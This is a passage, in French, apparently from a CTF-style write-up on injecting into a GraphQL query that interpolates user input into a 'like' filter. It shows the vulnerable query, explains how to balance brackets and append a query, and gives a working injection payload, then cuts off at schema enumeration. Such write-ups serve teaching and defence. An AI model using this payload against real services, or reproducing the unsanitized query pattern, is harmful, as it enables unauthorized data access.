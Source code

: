 ```graphql
	}
}
```

## Recherche d'une vulnérabilité

On peut donc se demander si ce développeur qui "ne compte pas ses heures" n'a laissé aucun problème apparent (spoil: oh que si)
Nous allons donc essayer d'injecter le champ **lastname** de la requête afin d'ajouter notre propre requête.

En GraphQL, nous pouvons appeler plusieurs requêtes simplement en les juxtaposant, par exemple:

```graphql
{
	query1 { ... }
	query2 { ... }
}
```

Nous devons donc ajouter notre requête après l'accolade fermante de **allCooks**, comme ceci:

```graphql
{ 
    allCooks (filter: { 
        or: [
		    { firstname: {like: "%$input%"} },
		    { lastname: {like: "%$input%"} }
        ]
    }) { 
		nodes { 
			firstname, 
			lastname, 
			speciality, 
			price 
		}
	}

	evil { }
}
```

Pour y arriver, nous devons respecter le contenu de la requête lors de l'injection, en respectant l'ordre des accolades / crochets fermants.

```graphql
"}}]}) { nodes { firstname } } evil { }#
```

Le **#** nous permet de commenter le reste de la requête afin qu'elle ne soit pas prise en compte.

## Exploration du schéma

Une fois que notre injection est valide, nous devons énumérer le schéma afin de trouver le nom des différentes tables / requêtes / champs.
Nous allons par exemple énumérer dans un premier temps les différentes requêtes présentes avec l'injection suivante:
